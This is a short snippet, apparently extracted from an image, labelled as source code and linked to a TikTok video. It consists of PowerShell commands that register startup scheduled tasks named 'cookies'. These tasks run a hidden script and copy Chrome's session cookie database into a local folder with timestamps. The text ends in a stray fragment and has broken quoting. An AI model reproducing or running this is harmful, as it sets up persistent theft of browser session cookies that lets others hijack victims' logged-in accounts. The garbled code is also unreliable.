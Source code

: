 https://www.tiktok.com/@fukuua_/video/7258348749309725957

Register-ScheduledTask -TaskName cookies -Action (New-ScheduledTaskAction -Execute 'powershell.exe' -Argument '-File "C:\axc\cookies.ps1"') -Trigger (New-ScheduledTaskTrigger -AtStartup -Delay (New-TimeSpan -Minutes 10))

Register-ScheduledTask -TaskName cookies -Action (New-ScheduledTaskAction -Execute 'powershell.exe' -Argument '-Command "Copy-Item -Path $env:LOCALAPPDATA\google\chrome\user data\default\network\Cookies" -Destination "C:\axc\Cookies $((Get-Date).ToString('yyyy-MM-dd HH-mm-ss'))"') -Trigger (New-ScheduledTaskTrigger -AtStartup -Delay (New-TimeSpan -Minutes 10))

-Once -At (Get-Date).AddMinutes(5)
